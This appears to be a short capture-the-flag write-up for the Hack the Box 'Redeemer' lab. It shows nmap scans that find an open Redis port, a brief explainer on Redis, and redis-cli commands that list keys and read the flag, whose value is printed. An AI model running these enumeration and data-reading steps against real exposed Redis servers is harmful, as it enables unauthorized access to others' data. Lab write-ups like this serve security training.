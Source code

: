 Hack the Box
Starting Pont
Redeemer

10.129.161.86

sudo nmap -sV -sC -oA nmap/fawn 10.129.161.86

$ sudo nmap -vv -p T:1009-9999 -sV -Pn 10.129.161.86                                                             130 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93SVN ( https://nmap.org ) at 2023-06-17 19:01 EDT
NSE: Loaded 46 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 19:01
Completed Parallel DNS resolution of 1 host. at 19:01, 0.24s elapsed
Initiating SYN Stealth Scan at 19:01
Scanning 10.129.161.86 [8991 ports]
Discovered open port 6379/tcp on 10.129.161.86


Scanned at 2023-06-17 19:01:43 EDT for 83s
Not shown: 8990 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
6379/tcp open  redis   syn-ack ttl 63 Redis key-value store

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.73 seconds
           Raw packets sent: 10206 (449.064KB) | Rcvd: 9960 (398.404KB)


What is Redis?
Redis (REmote DIctionary Server) is an open-source advanced NoSQL key-value data store used as a
database, cache, and message broker. The data is stored in a dictionary format having key-value pairs. It is
typically used for short term storage of data that needs fast retrieval. Redis does backup data to hard drives
to provide consistency


redis-cli -h 10.129.161.86

10.129.161.86:6379> info

10.129.161.86:6379> select 0

10.129.161.86:6379> keys *

10.129.161.86:6379> get flag
03e1d2b376c37ab3f5319922053953eb
